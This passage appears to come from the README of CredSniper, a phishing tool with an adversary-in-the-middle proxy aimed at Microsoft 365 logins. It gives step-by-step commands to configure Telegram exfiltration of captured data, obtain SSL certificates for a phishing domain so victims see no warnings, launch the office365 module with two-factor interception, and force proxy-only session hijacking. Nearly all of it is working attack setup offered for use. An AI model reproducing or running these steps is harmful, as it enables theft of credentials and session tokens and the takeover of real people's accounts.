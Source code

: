 ### Environment Variables

Configure these environment variables for optimal operation:

```bash
# Required for Telegram exfiltration
export TELEGRAM_BOT_TOKEN="your_bot_token_here"
export TELEGRAM_CHAT_ID="your_chat_id_here"

# Optional AiTM configuration
export AITM_PROXY_PORT="8080"
export AITM_TARGET_DOMAIN="login.microsoftonline.com"
export AITM_TIMEOUT="60"
```

### SSL Certificate Configuration

For production deployments, you'll need valid SSL certificates to avoid browser warnings:

```bash
# Generate certificates for your domain
certbot certonly --standalone -d your-phishing-domain.com

# Copy certificates to CredSniper
cp /etc/letsencrypt/live/your-domain/fullchain.pem CredSniper/certs/
cp /etc/letsencrypt/live/your-domain/privkey.pem CredSniper/certs/
```

## Usage

### Basic AiTM Attack

Launch CredSniper with AiTM proxy enabled (default):

```bash
python3 credsniper.py \
  --module office365 \
  --final https://office.com \
  --hostname your-phishing-domain.com \
  --twofactor \
  --ssl
```

The system will automatically:
1. Start AiTM proxy on port 8080
2. Attempt proxy-based session hijacking first
3. Fall back to Selenium automation if proxy fails
4. Send results via Telegram with artifacts

### AiTM-Only Mode

To disable Selenium fallback and use only AiTM:

```python
# Modify office365.py load function call
def load(enable_2fa=True, use_aitm_proxy=True):
    module = Office365Module(enable_2fa, use_aitm_proxy)
    module.attack_mode = "aitm"  # Force AiTM only
    return module
```

